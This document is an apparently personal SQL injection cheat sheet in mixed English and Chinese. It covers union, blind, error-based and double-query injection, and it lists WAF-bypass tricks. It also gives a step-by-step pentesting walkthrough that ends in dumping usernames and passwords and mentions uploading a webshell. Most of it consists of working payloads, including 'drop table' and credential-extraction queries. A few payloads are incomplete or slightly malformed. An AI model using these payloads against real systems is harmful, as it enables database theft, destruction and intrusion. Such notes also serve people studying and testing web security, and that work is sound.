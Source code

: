 # SQL injection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```sql
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
```
```sql
// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
```
```sql  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 
```
```sql
// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit
```
```sql
// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;
```
```sql
// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
```sql  
// 在做union select時如何知道columns的數量  
? id =' or 1=1 order by N--+    // N一筆一筆增加直到頁面無法正確顯示, --+註解掉後面的條件, +是代表註解後面要有空白!
```
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based   
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
```sql  
... exists (select * from table);  // 配合 AND使用
```

### Time based  
Wait for my first time practice ><...
  
### Error based  
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
看到**near**和**at**的字眼，我們可以刪除左右的單引號，剩下的sql語句應是: ```'  2'  ') LIMIT 0,1```  
因此，注入語句應該是: ```') or 1=1--+```  
* Double injection 
```sql
/**
we need:
count()            // Important* 分組語句多要跟聚合語句配合才能回傳數據列
concat()            // error會把碰撞的主鍵吐出來，因此我們需要把key跟查詢對象concat在一起
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
// 當我們清楚原理之後，也可以改成:
?id = 1' or 1=1 group by concat(database(),floor(rand()*2)) having min(0)--+
```
```floor(rand()x2)``` 為穩定序列，造成```group by key```的碰撞! (非常推薦以下文章
[The recommended aticle](http://dogewatch.github.io/2017/02/27/mysql-Error-Based-Injection/)
  
### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- No 'space'  
  - ```select/**/username/**/from/**/users;```
  - ```union select 1,2``` -> ```union(select(1),2)```
- No 'select'...  
  - ```大小寫混淆 e.g. SelecT``` 
- No comma ','  
  - ```union select 1,2,3``` -> ```union select * from ((select 1)a join (select 2)b join (select 3)c);```   
- Encode your payload  
  - ```URL-ENCODE, HEXIDECIMAL, UNICODE```
  
### Webshell  
Based on the provilege of db user, we can upload shell to read or write to db.  
  
### Trick of Pentesting  
Here are some tricks of pentesting, step by step from find the vulnerability to exploit it!  
1. SQL vulnerability? injection point?  
```sql
1' or 1"
```
這裡, 我們要判斷出sql漏洞的存在與否, 並且從error message判斷原生語句 

2. Number of columns   
```sql
1' order by N--+   // 不斷增加N的數量, 直到頁面顯示錯誤
```
這裡我們就可以確認query的字段數, union select用起來也比較方便  

3. Where are the SNAKES we want?  
```sql
1' and 1=2 union select 1,2,...N--+   // 加以確認我們注入的東西會出現在哪裡
```  

4. First, we need to know some basic information...   
```sql
...union select user(),database(),version(), @@version_compile_os--+  // 後面兩個分別是資料庫版本以及作業系統版本
```  

5. Start the exciting part...  
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
// FUCK那邊也可以用hex表示
```
```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// 這邊還是比較喜歡用table_schema,如果懶得決定要鎖定哪張表XD...
```
```sql
// 最終目的
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
```  
6. After get username and password to login, we can write a webshell to upload!

